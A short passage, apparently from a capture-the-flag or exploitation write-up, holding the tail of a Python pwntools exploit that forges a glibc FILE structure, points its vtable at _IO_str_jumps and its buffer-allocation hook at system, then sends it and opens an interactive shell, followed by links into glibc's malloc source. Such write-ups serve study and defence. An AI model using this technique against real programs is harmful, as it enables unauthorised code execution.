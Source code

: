 ```python
fake += p64(0) #__pad5
fake += p32(0xffffffff) # _mode
fake += b'\0'*20 # _unused2
fake += p64(io_str_jumps) # vtable // ## [ 4 ]
fake += p64(system) # _s._allocate_buffer // ## [ 5 ]
fake += p64(stdout) # _s._free_buffer

p.sendline(fake)
p.interactive()

```










[mmap_threshold](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#2297)

[mmap_is_executed](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#2320)
